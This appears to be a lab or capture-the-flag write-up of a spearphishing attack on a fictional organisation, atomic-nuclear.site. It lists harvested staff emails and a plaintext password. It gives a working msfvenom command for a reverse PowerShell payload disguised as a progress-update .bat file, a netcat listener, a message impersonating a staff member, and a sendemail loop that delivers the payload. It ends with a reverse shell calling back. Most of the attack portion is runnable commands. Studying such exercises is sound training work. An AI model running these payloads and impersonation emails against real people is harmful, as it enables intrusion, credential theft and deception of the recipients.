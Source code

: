 # Phishing

- [123](#123)

----

## Email collected

So far we have collected the following email information:

* (SSL Cert Admin / Senior Scientist)
iyer@atomic-nuclear.site

```
UserName: iyer
Passwd: Iyer@123
Port: 110,143
```

* (SSL Cert Admin)
admin@atomic-nuclear.site
* (Senior Principal Scientist)
homi@atomic-nuclear.site

<br/>

Note a mail server is availableon `192.168.8.3` (`atomic-nuclear.site`):

> - Mail:
>   - tcp/25, tcp/110, tcp/143
>   - Dovecot

<br/>

## Phishing Preparation

> Technique:<br/>
> T1566.001 Spearphishing Attachment<br/>
> https://attack.mitre.org/techniques/T1566/001/

<br/>

Prepare a reverse powershell payload (in `.bat` format) using `msfvenom`:

```
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.100.11 LPORT=443 > ProgressUpdate.bat
```
![picture 1](images/eabdaf72b7ec27178a42cab94c3f16da8719979633a88303e598c20deee8c4bc.png)  

<br/>

Prepare a list of collected emails:
```
cat >> emails.txt<<EOF
> iyer@atomic-nuclear.site
> admin@atomic-nuclear.site
> homi@atomic-nuclear.site
> 
> EOF
```
![picture 2](images/377a6d99e9225dc7742dfbd1278bec57ea413ae46ab16fa7f17c304314f33de6.png)  

<br/>

Prepare a phishing message, impersonating one of the found person in the target organization `Hafiz`:
```
cat >> email_msg.txt <<EOF
> Hello,
> 
> Please find the research progress update in the attached. This update is really important and make sure you check it out.
> 
> Regards,
> Hafiz
> EOF
```

![picture 3](images/507ed2a1e185c0d35bad488da9c3fae39f921fe75abbbae3ed2d8711b3d34fa0.png)  

<br/>

## Exploitation

First launch a netcat listener:

```
nc -nlvp 443
```

<br/>


Then send phishing emails with attachment to the target emails:

```
for email in $(cat emails.txt); do sendemail -l email.log -f "hafiz@atomic-nuclear.xyz" -u "[IMPORTANT] Research Progress Update" -m $(cat email_msg.txt) -t "$email" -s "atomic-nuclear.site:25" -o tls=no -a ProgressUpdate.bat; done
```

![picture 4](images/de6aed4aa9572e26355372c879d210a380ab94599617d3b24a96b00fe065e518.png)  

* As shown, the email message was delivered to `iyer@atomic-nuclear.site` successfully.

<br/>

After a while, a reverse shell calls back to the netcat listener:

![picture 5](images/ae8fb0ede98b09646283564e242e64f1b53d74852e27a583fa34e40c5f8da0b2.png)  

<br/>

